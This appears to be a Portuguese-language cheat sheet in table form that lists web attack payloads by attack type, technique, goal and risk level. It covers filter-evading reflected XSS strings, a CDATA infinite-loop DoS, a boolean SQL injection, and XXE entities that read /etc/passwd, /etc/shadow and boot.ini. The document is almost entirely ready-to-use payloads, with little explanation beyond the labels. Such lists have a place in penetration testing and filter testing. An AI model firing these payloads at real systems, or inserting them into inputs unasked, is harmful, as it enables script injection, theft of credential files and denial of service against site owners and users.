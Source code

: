| Payload                                                                                                                       | Tipo de Ataque                  | Técnica                                    | Objetivo                                | Risk Level  |
|-------------------------------------------------------------------------------------------------------------------------------|---------------------------------|--------------------------------------------|-----------------------------------------|-------------|
| `"><STYLE>@import"javascript:alert('XSS')";</STYLE>`                                                                          | XSS Refletido                   | CSS + import JS                            | Executar `alert` via CSS injection      | Medium      |
| `>"'><img%20src%3D%26%23x6a;…alert(%26quot;%20XSS%20Test%20Successful%26quot;)>`                                                 | XSS Refletido                   | URL-Encoding + HTML entity evasion         | Executar `alert` com codificação dupla  | Medium      |
| `>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>`                                                                  | XSS Refletido                   | URL-Encoding parcial                       | Executar `alert`                       | Medium      |
| `'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'`                                                                         | XSS Refletido                   | Unicode-Escape (UTF-16)                    | Bypass filtros e executar `alert`       | Medium      |
| `'';!--"<XSS>=&{()}`                                                                                                         | XSS Refletido                   | Injeção genérica com caracteres especiais  | Quebrar parsers e injetar tag `<XSS>`   | Low         |
| `<IMG SRC="javascript:alert('XSS');">`                                                                                       | XSS Refletido                   | Tag IMG com atributo JS                    | Executar `alert`                       | Medium      |
| `<IMG SRC=javascript:alert('XSS')>`                                                                                          | XSS Refletido                   | Tag IMG sem aspas                          | Executar `alert`                       | Medium      |
| `<IMG SRC=JaVaScRiPt:alert('XSS')>`                                                                                          | XSS Refletido                   | Case-insensitive JS URI                    | Executar `alert`                       | Medium      |
| `<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>`                                                                            | XSS Refletido                   | HTML entity + `<WBR>` para evadir filtro   | Executar `alert`                       | Medium      |
| `<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;…>`                                                                                | XSS Refletido                   | Decimal entities + `<WBR>`                 | Executar `alert`                       | Medium      |
| `<IMGSRC=&#0000106&#0000097&<WBR>#0000118…>`                                                                                 | XSS Refletido                   | Padded decimal entities + `<WBR>`          | Executar `alert`                       | Medium      |
| `<IMGSRC=&#x6A&#x61&#x76;&#x61s…>`                                                                                           | XSS Refletido                   | Hex entities + `<WBR>`                     | Executar `alert`                       | Medium      |
| `<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">`                                                                             | XSS Refletido                   | JS URI com newline entity + `<WBR>`        | Executar `alert`                       | Medium      |
| `<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">`                                                                             | XSS Refletido                   | JS URI com carriage-return + `<WBR>`       | Executar `alert`                       | Medium      |
| `<![CDATA[<script>var n=0;while(true){n++;}</script>]]>`                                                                      | XSS em XML/HTML                 | CDATA embedding                            | Executar loop infinito (DoS)           | High        |
| `<?xml…><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');…>`                                                                    | XSS em XML                      | CDATA split + tag mashup                  | Executar `alert`                       | Medium      |
| `<?xml…?><foo><![CDATA[' or 1=1 or ''=']]></foof>`                                                                            | SQL Injection (Boolean-based)   | Injeção dentro de CDATA                    | Testar condição lógica (`1=1`)         | High        |
| `<?xml…<!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`                                                           | XXE                             | External Entity (Windows)                  | Ler arquivo `c:\boot.ini`              | Critical    |
| `<?xml…<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`                                                            | XXE                             | External Entity (Unix passwd)              | Exfiltrar `/etc/passwd`                | Critical    |
| `<?xml…<!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`                                                            | XXE                             | External Entity (Unix shadow)              | Exfiltrar `/etc/shadow`                | Critical    |
| `<?xml…<!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`                                                            | XXE                             | External Entity (Unix random device)       | DoS via bloqueio de leitura indefinida | Critical    |
| `<script>alert('XSS')</script>`                                                                                              | XSS Refletido                   | Tag `<script>` direta                      | Executar `alert`                       | High        |
| `%3cscript%3ealert('XSS')%3c/script%3e`                                                                                        | XSS Refletido                   | URL-Encoding completa                      | Executar `alert`                       | High        |

